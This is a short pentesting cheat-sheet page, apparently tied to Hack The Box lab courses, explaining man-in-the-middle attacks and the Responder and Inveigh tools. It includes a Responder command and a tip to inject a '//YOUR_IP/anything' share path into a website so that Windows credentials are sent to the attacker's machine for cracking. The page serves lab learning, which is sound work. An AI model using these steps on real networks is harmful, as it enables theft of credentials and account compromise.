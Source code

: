 # Man-in-the-middle attack

<div class="row row-cols-lg-2"><div>

A Man-in-the-middle <small>(M-I-T-M)</small> design an attack where an attacker seats between clients and their target server.

* They fooled the client and made them believe they are the 'server'
* They are able to access and maybe edit/drop every message

The hacker will most likely be able to read hashes or credentials sent over the network allowing them to compromise more accounts 🔑.
</div><div>
</div></div>

<hr class="sep-both">

## Common tools

<div class="row row-cols-lg-2"><div>

#### Responder

[![server_side_attacks](../../../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)
[![attacking_common_services](../../../../../_badges/htb/attacking_common_services.svg)](https://academy.hackthebox.com/course/preview/attacking-common-services)
[![return](../../../../../_badges/htb-p/return.svg)](https://app.hackthebox.com/machines/Return)

You can use [responder](https://github.com/lgandx/Responder) <small>(5.0k ⭐)</small> to catch Windows authentication requests allowing us to grab hashes and passwords.

For instance, a website may be using SMB to access some shares based on the user input. If we inject a share leading to our machine, we may be able to grab the credentials used to connect to the share.

```ps
$ sudo responder -i IP -I tun0
```

In the previous example, if we inject `//YOUR_IP/anything`. If the website was configured to use the current user credentials to connect to the share, then you will receive them, and will have to crack them.

📚 It works with SMB, LDAP, etc.
</div><div>

#### Inveigh

[Inveigh](https://github.com/Kevin-Robertson/Inveigh) <small>(2.3k ⭐)</small> is a tool on Windows similar to responder.
</div></div>
